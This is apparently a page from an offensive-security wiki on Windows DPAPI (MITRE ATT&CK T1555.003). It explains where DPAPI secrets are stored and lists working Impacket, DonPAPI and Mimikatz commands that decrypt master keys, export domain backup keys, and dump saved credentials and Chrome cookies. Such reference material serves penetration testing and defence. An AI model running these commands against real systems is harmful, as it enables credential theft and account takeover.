 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
authors: 'Hackndo, ShutdownRepo, sckdev'
category: ad
---
```


# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```batch
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```batch
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like [dpapick](https://github.com/jordanbtucker/dpapick) (Python), [dpapilab](https://github.com/dfirfpi/dpapilab) (Python), [Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
# (not tested) Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# (not tested) Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# (not tested) Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

[DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](../../ntlm/pth.md), [pass-the-ticket](../../kerberos/ptt.md) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```


=== Windows

On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract dpapi with [`lsadump::backupkeys`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/backupkeys), decrypt with [`dpapi::chrome`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/chrome) and [`dpapi::cred`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/cred) or use specific master keys with [`dpapi::masterkey`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey) and [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi) , using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```

:::


## Resources

[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords)

[https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf](https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf)
